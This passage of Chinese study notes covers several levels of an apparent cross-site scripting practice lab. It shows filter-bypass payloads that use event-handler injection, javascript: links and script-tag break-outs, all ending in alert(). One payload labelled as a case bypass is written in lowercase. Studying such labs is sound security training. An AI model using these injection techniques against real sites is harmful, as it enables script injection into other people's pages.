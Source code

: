 ![image-20240507194549987](D:\Infiltration\笔记\note\图片\image-20240507194549987.png)





##### 第四关



![image-20240507194956746](D:\Infiltration\笔记\note\图片\image-20240507194956746.png)



```
”onfocus=javascript:alert()
```

![image-20240507195133395](D:\Infiltration\笔记\note\图片\image-20240507195133395.png)

##### 第五关

on被过滤利用其它标签绕过

![image-20240507195215907](D:\Infiltration\笔记\note\图片\image-20240507195215907.png)





```
"> <a href=javascript:alert()>xxx</a> <"
```

![image-20240507195757172](D:\Infiltration\笔记\note\图片\image-20240507195757172.png)



##### 第六关





   

```
<script>alert(1)</script>
```

script被过滤

![image-20240507200150773](D:\Infiltration\笔记\note\图片\image-20240507200150773.png)

大小写绕过

```
"><script>alert(1)</script><"
```

![image-20240507200849322](D:\Infiltration\笔记\note\图片\image-20240507200849322.png)

##### 第七关
